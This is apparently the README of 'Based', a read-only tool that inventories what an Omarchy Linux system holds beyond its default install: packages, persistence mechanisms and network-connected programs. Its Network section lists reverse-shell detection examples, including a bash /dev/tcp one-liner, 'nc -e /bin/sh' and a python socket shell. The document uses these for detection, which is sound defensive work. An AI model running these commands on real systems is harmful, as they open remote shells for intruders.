


# Based

What's on your Omarchy that Omarchy didn't put there.



## The idea

Omarchy puts a known set of things on your computer. Based shows you
everything else: what came later, and when.

It only looks. It never changes or deletes anything.

**It is not an antivirus:** it does not scan for virus signatures, and a
clean result does not mean a system is safe. It answers one question: *what
is here that the default install did not bring, and when did it arrive?*
That makes it a good overview for you, and for an AI assistant you ask to
help you check your system.

## An example

You install an app from the AUR. It quietly brings along another package you
never chose. Based lists that package as new, with the day it came and how
unusual it is. You press `p` and ask your AI what it is and why it is there.

## Install

You need Omarchy (with its shell plugins, the "Quattro" release or newer).

```sh
git clone https://github.com/BuFuuu/based.git
cd based
./install.sh
```

This puts the `based` program in `~/.local/bin` and the bar icon in the
Omarchy bar. It builds the program with Go if you have it
(`omarchy pkg add go`); otherwise it downloads the ready-made program from
this repo's latest release.

If you added the bar icon with `omarchy plugin add`, run the same script from
the plugin's folder to get the program it needs:

```sh
omarchy plugin add https://github.com/BuFuuu/based.git --enable
~/.config/omarchy/plugins/io.github.bufuuu.based/install.sh
```

Then run your first scan: right click the bar icon, or run `based scan`.

## Use

The bar icon is a short line with a dot above it. Hover it for a summary of
the last scan. Left click opens the Based window; right click scans.

The window has five tabs:

| Tab | What it shows |
|---|---|
| Timeline | everything new, most unusual first (`t` sorts by time) |
| Overview | every folder, and how much is new in it |
| Persistence | things that start by themselves |
| Network | programs that talk to the network right now |
| Accepted | what you marked as known; undo it here |

Getting around:

| Key | Does |
|---|---|
| `tab` | next tab, or click a tab |
| `↑` `↓` | move up and down |
| `enter` | open an item |
| `esc` | go back |
| click | copy the path |
| `p` | copy a question about it for your AI |
| `a` | accept: you know it, hide it until it changes |
| `A` | accept the whole folder it is in (asks first) |
| `r` / `R` | scan again / scan as root (sees everything) |
| `e` | open the full report for AI in your editor |
| `h` | open or close the help |
| `q` | quit |

Every item is **very unusual** (warning triangle), **unusual** (exclamation
mark), **a bit unusual** (question mark) or **normal** (hollow circle).
"Unusual" means far from a default install, not dangerous: it is a list to
look through, not a verdict.

From the shell:

```sh
based scan              # scan as you, about 10 seconds
based scan --sudo       # scan as root: root-only files and every program on the network
based                   # the window
based timeline --print  # plain list, most unusual first; --sort time for newest first
based --all --in /etc   # everything in /etc, normal items too
based -s very-unusual   # only very unusual (also: unusual, a-bit-unusual, normal)
based show <id>         # everything known about one item, and why it is listed
based accept <id>       # known: hidden until it changes
based accept --folder ~/Projects/app   # a whole project, also after it changes
claude "$(based show <id> --prompt)"   # hand one item to an AI to look into
```

## Remove

```sh
./install.sh --uninstall
```

This removes the program and the bar icon. Your scan history stays in
`~/.local/state/based`; delete that folder too if you want it gone.

## What it needs, and what it may do

| | |
|---|---|
| Needs | Omarchy with Hyprland, a terminal via `xdg-terminal-exec` (Omarchy's default), `wl-copy` for copying, pacman. Go 1.27+ only to build from source. |
| Reads | your files and the system's files, the pacman database, and `/proc` for programs and network connections. |
| Writes | only `~/.local/state/based` (scans, accepts, reports), `~/.local/bin/based` and its plugin folder. |
| Root | only when you ask: `based scan --sudo` or `R` runs the scan through `sudo`, which asks for your password. It still writes only to your own state folder. |
| Network | none. Based never uploads, downloads or looks anything up. Only `install.sh` downloads, and only the release program when you have no Go. |
| Desktop | opening the window adds a Hyprland rule that floats and sizes it. When the bar icon changes, `install.sh` restarts the Omarchy shell so it loads the new one. |

## Report for AI

Every scan writes a Markdown report to `~/.local/state/based/reports/` (the
last 20 are kept). It is made to be given to an AI assistant as a whole: it
explains what Based is, how to read it, its limits and a careful read-only
way to check things, then lists every item. Click "▤ Report for AI" in the
window to copy its path, or press `e` to open it.

```sh
based report --open
claude "Help me review this system: $(cat "$(based report)")"
```

The report and the AI prompts write your home folder as `~` and leave out
your computer's name, so your user name doesn't end up in what you share.

---

The rest of this page explains how Based decides what is unusual.

## Where things come from

Where an item comes from matters most. Every item shows its source, and the
source decides how carefully it is checked:

| | Source | Why | How it is checked |
|---|---|---|---|
| ●●●● | Omarchy | on every Omarchy system, signed by Arch or Omarchy | size, times and permissions against the package record |
| ●●●○ | Arch repos | built and signed by Arch packagers, chosen by you | same |
| ●●○○ | AUR/3rd party | not built or reviewed by Arch: an AUR recipe or a third-party repo | every file hashed against its package |
| ●○○○ | Unknown | nothing records what it should look like | contents inspected, runnable files hashed |

AUR sits below the Arch repos because Arch packages are built by vetted
packagers and signed with keys your system already trusts, while an AUR
package is a build recipe anyone can upload or take over, that nobody
reviews, and that runs on your machine when you build it. Omarchy sits above
Arch not because its packages are safer, but because many people run exactly
the same files, so problems get noticed. A package file whose content changed
drops to Unknown: the package only vouches for what it shipped.

Most files come from packages, so most of a scan is the cheap check. It
still catches changes: a file is hashed whenever its size, its modification
time *or its change time* differs from what the package installed. The
change time can't be set back with ordinary tools, so a file edited and
re-dated with `touch` is still hashed.

## How unusual

The level comes from flags like "not owned by any package", "content differs
from its package" or "a program in /etc". What matters most is where an item
comes from and how far that source can be trusted. Where it sits counts too:
`/etc` and `/var` should only hold settings and data that packages put there,
so a stray file there, and above all a program, weighs more than one in
`/tmp` or your home, where your own files are expected.

What a file contains (a script that pipes a download into a shell, say) only
nudges the level. Judging content is an antivirus's job, and it would flag
plenty of honest scripts.

Things Omarchy itself sets up are recognised and count as normal: files its
scripts create or edit, its `etc-overrides`, files created while Omarchy was
being installed and unchanged since, and scripts that a trusted package
carries and writes out (like herdr's Claude Code hook).

## What gets scanned

| Area | What is reported |
|---|---|
| `/usr`, `/etc`, `/opt`, `/boot` | unowned files, changed package files, edited package configs; package files swapped for links, handed to a normal user or given root capabilities; package folders others can write to; unowned kernel modules; edits to login, sudo and loader settings (`/etc/pam.d`, `sudoers`, `sshd_config`, `ld.so.conf`, …) |
| `/var` | programs, and unowned data listed for overview (not walked) |
| `~/.config` | apps and files that differ from Omarchy's templates |
| rest of home | binaries in hidden folders, `~/.local/bin` commands, git hooks inside repositories; other programs grouped per folder. `~/.cache` is included, minus the caches of known tools |
| `/tmp`, `/var/tmp`, `/dev/shm` | anything runnable |
| packages | installed outside the Omarchy package lists, AUR/foreign |
| persistence | everything that starts by itself, see below |
| network | every program with a connection open right now, see below |

The Overview tab lists every folder under `/`: what was checked, how many
items there are at least a bit unusual (normal ones are counted apart), and
why a folder was not scanned (virtual filesystems like `/proc`, links into
`/usr`, `/root`, mount points).

## Persistence

The Persistence tab lists every place where something starts by itself that
is not a default; `d` shows the defaults too, each with the reason it counts
as one:

| Mechanism | Default when |
|---|---|
| systemd services, timers, sockets (system and user) | a package ships the enable link, Omarchy's scripts enable it, a package's install script enables it, a systemd preset enables it, or it comes with (`Also=`/`Alias=`) a unit that is default |
| systemd unit files and overrides in `/etc` or `~/.config` | shipped by a package or created by Omarchy |
| cron, pacman hooks, udev rules, network hooks, sudo and polkit rules, `/etc/profile.d`, SSH server settings | owned by a package and unchanged, or created by Omarchy (a program in these folders is always very unusual) |
| `~/.config/autostart`, Omarchy hooks, environment.d | identical to an Omarchy template or a file Omarchy ships |
| shell startup (`.bashrc`, `.profile`, …), Hyprland config | no lines beyond Omarchy's default (added lines are shown) |
| uwsm session env (`~/.config/uwsm/env*`), fish `conf.d`, D-Bus services in `~/.local/share/dbus-1`, Python `.pth` import lines and `usercustomize.py` | never: Omarchy puts nothing there |
| app launchers in `~/.local/share/applications` that replace an installed app's launcher | same command as the app, or a copy Omarchy ships |
| accounts | root and you; any other account with uid 0, a real login shell, sudo rights (`wheel`) or, on a root scan, an empty password is listed |
| Omarchy shell plugins, SSH keys, `ld.so.preload`, Claude Code and Codex hooks and tool servers, git `core.hooksPath` | listed for review, unless what they run is a script a trusted package ships |

"Not default" is not the same as bad: a line the uv installer added to
`.bashrc` is listed too.

## Network

The Network tab lists every program with a connection open at scan time:
**listening** for connections, holding **connections**, or holding **raw
sockets** (which can see or forge any traffic). Based reads `/proc` itself
and never looks up a name or address.

A program is a default when its file belongs to an unchanged package from
Arch or Omarchy; defaults are hidden (`d` shows them). For `python script.py`,
`node app.js` and the like, the script decides, not the interpreter.
Everything else is listed: programs no package owns, AUR programs, changed
package files, programs whose file was deleted or that run from memory or a
temp folder, and flatpak apps or containers (their files can't be checked).

Some signs mean a likely reverse shell, whatever the program:

| Sign | Example |
|---|---|
| a shell holds a network connection | `bash -i >& /dev/tcp/host/port 0>&1` |
| a program's input and output are a network socket | `nc -e /bin/sh host port` (the `sh`) |
| a connected program runs a shell that reads commands from it | `python -c '…socket…; Popen(["/bin/sh"]…)'` |
| a raw network tool holds the connection | `nc`, `ncat`, `socat` |

Shells that run one command (`bash -c …`, as editors and AI agents use them)
don't count.



## Limits

- **A snapshot.** A program that connects for a moment every few minutes (a
  beacon) is only seen if the scan catches it mid-connection.
- **Without root,** Based can't read root-only files or see other users'
  programs; the window says so and `R` scans as root.
- **Package records live on the same disk.** Anyone with root could change a
  file *and* its record. Based catches mistakes, sloppy tampering and
  anything done without root, not a careful attacker who already has root.
- **Unowned files** have nothing to compare with; Based describes them and
  notices when they change.
- **No lookups.** Based stays offline, so it doesn't check hashes online;
  `based show` gives you the SHA-256 to look up yourself.
- **A compromised system can lie** to every program on it, this one too.
  Real certainty needs checking the disk from a trusted boot medium.
- **Containers' own files and sockets** are not read; ports they publish
  show up as `docker-proxy`.

## Developing

```sh
go test ./...
go build -o ~/.local/bin/based ./cmd/based
```

Every scan phase is a `scan.Collector` (`internal/scan/scan.go`). Call
`r.Tick(path, detail)` for each item checked and `r.Report(finding)` for each
finding, then register the collector in `internal/collectors/registry.go`.
Collectors that list things rather than files record them with
`r.Entry(entry, finding)` (persistence) or `r.NetEntry(entry, finding)`
(network).

```
cmd/based/            the program and its commands
internal/model/       finding, flags, levels, sources
internal/pacman/      reads the local pacman database directly
internal/scan/        collector interface, progress, runner
internal/collectors/  one file per scan phase
internal/inspect/     per-file checks: times, ELF/script, patterns
internal/store/       scans, first seen, accepts, bar summary
internal/ui/          scan screen, window, report
manifest.json, Widget.qml   the Omarchy bar icon
```

A version tag (`v0.1.0`) builds the program for Linux (amd64, arm64) and
attaches it to a GitHub release, where `install.sh` finds it.

## License

MIT, see [LICENSE](LICENSE).
